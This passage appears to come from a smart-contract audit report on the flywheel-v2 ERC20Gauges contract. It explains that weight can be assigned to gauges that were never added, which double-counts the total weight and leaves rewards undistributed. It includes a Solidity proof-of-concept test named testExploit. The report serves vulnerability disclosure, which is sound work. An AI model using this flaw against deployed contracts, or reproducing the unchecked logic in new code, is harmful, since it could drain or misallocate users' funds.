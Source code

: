 The impact depends really on how gauges are used by other contracts.

The most obvious consequence I can imagine is that some other contract distributes rewards based on `calculateGaugeAllocation`. However, because `_getStoredWeight(_totalWeight, currentCycle)`  is now larger than the real total sum of weights, all rewards are smaller than they should be (because of larger denominator `total`).

There can be also (potentially large) leftover amount of rewards that is never distributed because now sum of  `calculateGaugeAllocation(gauge, quantity)` over all gauges with constant `quantity` is less than `quantity`. So value might be lost.

### Proof of Concept

I added this test (modified `testCalculateGaugeAllocation` ) to `ERC20GaugesTest.t.sol` and it passes.

        function testExploit() public {
            token.mint(address(this), 100e18);

            token.setMaxGauges(2);
            token.addGauge(gauge1);

            require(token.incrementGauge(gauge1, 1e18) == 1e18);
            require(token.incrementGauge(gauge2, 1e18) == 2e18);
            
            // gauge added after incrementing...
            token.addGauge(gauge2);

            hevm.warp(3600); // warp 1 hour to store changes
            require(token.calculateGaugeAllocation(gauge1, 150e18) == 50e18);
            require(token.calculateGaugeAllocation(gauge2, 150e18) == 50e18);

            // expected value would be 2e18
            require(token.totalWeight() == 3e18);

            require(token.incrementGauge(gauge2, 2e18) == 4e18);

            // ensure updates don't propagate until stored
            require(token.calculateGaugeAllocation(gauge1, 150e18) == 50e18);
            require(token.calculateGaugeAllocation(gauge2, 150e18) == 50e18);

            hevm.warp(7200); // warp another hour to store changes again
            require(token.calculateGaugeAllocation(gauge1, 125e18) == 25e18);
            require(token.calculateGaugeAllocation(gauge2, 125e18) == 75e18);
            
            // expected value would be 4e18
            require(token.totalWeight() == 5e18);
        }

As we  can see, we can call `token.incrementGauge(gauge2, 1e18)` before `token.addGauge(gauge2)`. This is because [this check](https://github.com/fei-protocol/flywheel-v2/blob/77bfadf388db25cf5917d39cd9c0ad920f404aad/src/token/ERC20Gauges.sol#L257) doesn't revert for gauges that were never added in the first place.

First time the total weight is incremented in `_incrementUserAndGlobalWeights` and 2nd time [here](https://github.com/fei-protocol/flywheel-v2/blob/77bfadf388db25cf5917d39cd9c0ad920f404aad/src/token/ERC20Gauges.sol#L465-L469).
